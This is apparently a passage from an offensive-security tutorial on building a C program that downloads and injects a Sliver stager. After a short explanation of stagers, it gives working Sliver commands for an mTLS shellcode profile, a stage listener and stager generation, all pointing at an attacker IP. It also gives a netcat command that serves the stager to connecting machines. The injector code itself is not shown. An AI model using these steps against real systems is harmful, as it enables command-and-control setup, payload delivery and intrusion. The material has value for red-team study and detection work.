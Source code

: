 ```yaml
---
title: Custom C Program to Download and Inject a Sliver Stager
date: "2021-01-01"
---
```


In this post we're going to create a C program that will download a stager and inject it in the process to establish communication with the attacker machine.
# Basics of Stager payloads

Before starting we need to understand what stager payloads are. If you've used Metasploit Framework then you might've seen that word being thrown around but never really understood what it means. 

In simple terms a stager is reponsible for establishing commmunication with the attacker's machine and downloading and executing a larger payload called the Stage. You may ask why we don't simply download the Stage directly instead of having our stager download the stage. Well the reality is you won't always have the luxury of having unlimited memory space. If you've done challenging Buffer Overflow labs then you would've encountered limited buffer space to inject your payload. In cases like that you'd need a small payload to ultimately grab your large payload and do the damage.

# Sliver C&C Framework

I ran into Sliver while searching for different open source C&C frameworks to try out. We'll be using it to generate a stager and then establish communication with our target machine. Although it's still in beta mode, it has some impressive feautures you can check it out <a href="https://github.com/BishopFox/sliver">here</a>.

First we need to generate a profile for our shellcode:

```javascript
new-profile --profile-name mrd0x-shellcode --mtls 10.0.0.197:443 --format shellcode
```

*   <b>--profile-name mrd0x-shellcode</b> : Specifies the name of the generated profile
*   <b>--mtls 10.0.0.197:443</b> : Specifies the use of Mutual-TLS and the listening IP and Port
*   <b>--format shellcode</b> : The format of the payload that will be used by this profile

Next we're going to start our listener and link the profile created in the previous step:

```javascript
stage-listener --url tcp://10.0.0.197:80 --profile mrd0x-shellcode
```


Finally we'll use the following command to generate our stager file:

```javascript
generate stager --lhost 10.0.0.197 --lport 80
```


Now all we need to do is use Netcat to listen for any incoming connections and send the stager file upon connecting:

```javascript
nc -lvp 8080 < STAGER_FILE
```
